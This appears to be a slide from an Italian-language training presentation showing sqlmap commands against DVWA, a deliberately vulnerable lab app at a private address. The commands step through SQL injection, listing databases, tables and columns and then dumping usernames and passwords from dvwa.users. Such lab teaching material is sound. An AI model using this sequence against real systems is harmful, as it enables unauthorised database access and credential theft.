

# Sqlmap test verso DVWA
Ottenere la lista dei db presenti
sqlmap -u "http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<your>; security=low" –-dbs
Ottenere le tabelle del db dvwa
sqlmap -u "http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<your>; security=low" -D dvwa --tables
Ottenere le colonne per la tabella dvwa.users
sqlmap -u "http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<your>; security=low" -D dvwa -T users --columns
Ottenere utenti e le loro password dalla tabella dvwa.users
sqlmap -u "http://10.10.10.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=<your>; security=low" -D dvwa -T users -C user,password --dump